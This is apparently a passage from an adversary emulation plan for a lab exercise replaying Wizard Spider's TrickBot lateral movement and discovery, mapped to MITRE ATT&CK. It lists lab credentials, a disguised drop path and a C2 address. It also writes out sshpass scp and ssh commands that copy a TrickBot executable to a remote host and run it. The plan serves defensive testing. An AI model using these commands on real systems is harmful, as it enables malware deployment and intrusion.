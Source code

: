 ## Step 4 - Move Laterally Deploy TrickBot

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot.

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

Compromised user info:

User:	`bill@oz.local`

Password: `Fall2021`

System: `10.0.0.8 / toto`

File Write (Tribot EXE): `%AppData%\uxtheme.exe`

C2:	`192.168.0.4:447 HTTP - no encryption or obfuscation`

---

### ☣️ Procedures

Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
sshpass -pFall2021 scp -oStrictHostkeyChecking=no TrickBot/WNetval/TrickBotClientExe.exe bill@10.0.0.8:"C:\\Users\\bill\\uxtheme.exe"
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
sshpass -pFall2021 ssh -oStrictHostkeyChecking=no bill@10.0.0.8 "C:\\Users\\bill\\uxtheme.exe"
```
| TTP | Notes |
| -------- | ------- |
| T1078.002  | WizardSpider uses valid credentials. |
| T1105 | WizardSpider uses SSH to ingress tools. |
| T1059.003  | WizardSpider uses CMD to execute implants. |
| T1571  | WizardSpider uses HTTP over a non-standard port for C2 communications. |

## Step 5 - TrickBot Discovery

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### ☣️ Procedures
